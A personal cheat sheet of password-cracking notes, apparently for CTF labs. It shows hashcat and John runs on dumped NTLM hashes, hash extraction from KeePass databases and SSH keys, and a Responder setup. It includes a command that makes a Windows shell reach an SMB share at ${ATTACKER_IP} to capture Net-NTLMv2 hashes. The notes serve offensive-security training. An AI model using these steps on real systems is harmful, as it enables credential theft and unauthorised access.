 # Password cracking

I sometimes forget what to look for in the outputs of cracking tools, or what the exact params should be.
So this is mostly here as a reminder, as it is far from rocket science.

For NTLM hash cracks you will have something like this:
 
```
Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
thm.red\thm:1114:aad3b435b51404eeaad3b435b51404ee:${NTLM_HASH}:::
```

So we can crack it with either Hashcat or John:

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt


hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 14.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: pthread-13th Gen Intel(R) Core(TM) i5-13600K, 3507/7079 MB (1024 MB allocatable), 14MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 3 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

077cccc23f8ab7031726a3b70c694a49:Passw0rd123              <------------ Output here
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 077cccc23f8ab7031726a3b70c694a49
Time.Started.....: Sat Mar  4 13:59:18 2023 (3 secs)
Time.Estimated...: Sat Mar  4 13:59:21 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   774.1 kH/s (0.77ms) @ Accel:512 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2107392/14344385 (14.69%)
Rejected.........: 0/2107392 (0.00%)
Restore.Point....: 2100224/14344385 (14.64%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: RICAFORT -> Nike13
Hardware.Mon.#1..: Util: 19%

```

or 

```
sudo john -format=nt  hash.txt -w=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=14
Press 'q' or Ctrl-C to abort, almost any other key for status
Passw0rd123      (thm.red\bk-admin)    <------------ Output here
1g 0:00:00:00 DONE (2023-03-04 14:00) 10.00g/s 21033Kp/s 21033Kc/s 21033KC/s Password31..Paris13
Use the "--show --format=NT" options to display all of the cracked passwords reliably
```

## Extracting hashes from interesting files 

We can extract hash for the master password from a .kdbx file with:

```
keepass2john Database.kdbx > result.hash
```

The resulting hash has a prefix `Database:` that should be removed.
Afterwards, we can attempt to crack it with `hashcat -m 13400`

similarly, if we gain access to an ssh private-key, we have
```
ssh2john id_rsa
```
Which, again, will prefix with the filename `id_rsa:` which should be removed before giving it to hashcat.


## Get Net-NTLMv2 hash from a shell

pre-req for this is that the running is allowed to RDP so we can access the user once the NTLMv2 hash is cracked.
check this by doing `net user $username` in the shell.
If the user is in Remote Desktop Users, we are good.

On kali, set up responder on the network interface (usually `tun0`):

```
sudo responder -I tun0
```

Now, from the Windows shell, do something like `dir \\${ATTACKER_IP}\thiswillgetdenied`.

Note that if you can get a windows server to access such an SMB path remotely, this trick can also be abused via e.g. fileuploads


## Crunch

We can use the tool `crunch` to quickly generate simple wordlists.
This can eg be done by doing:

```
crunch 10 10 -t test%%%%%% > testworldlist.txt
```
Which will print `test000001` through `test999999`.

## Online Resource

If everything else fails for a hash, it can be worth it trying to see if [this site](https://hashes.com/en/decrypt/hash) can crack the hash.

